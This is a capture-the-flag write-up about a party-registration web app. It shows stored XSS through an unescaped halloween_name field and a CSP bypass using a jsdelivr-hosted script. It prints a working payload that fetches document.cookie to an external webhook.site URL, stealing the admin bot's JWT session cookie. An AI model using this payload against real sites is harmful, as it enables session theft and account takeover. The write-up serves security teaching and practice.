

This challenge presents a simple form that functions as a party registration system:



Examining the source code reveals that after submitting the form, user responses are saved to the database and a call to `bot.visit()` is triggered:

.png)

This function generates a JWT containing the flag, sets it as the session cookie, and then navigates to the `/admin` route followed by `/admin/delete_all`.

The vulnerability lies in the `/admin` template, which uses the safe filter on the `halloween_name` field, making it susceptible to XSS attacks:

.png)

However, exploitation isn't straightforward. The `index.js` file reveals an important security measure:

.png)

A Content-Security-Policy header restricts script execution to the same domain and `https://cdn.jsdelivr.net`. To bypass this restriction, I used a CSP bypass technique from the resource: https://www.jsdelivr.com/package/npm/csp-bypass

Specifically, I used this payload as the halloween name:

```html
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script><br csp="fetch('https://webhook.site/3eca71b1-4380-4b4f-8493-76bb6e5e1d6e?'+document.cookie)">
```

This payload allows me to make a request to a webhook instance where I can capture the cookie containing the JWT:

.png)

Decoding this JWT token reveals the flag:

.png)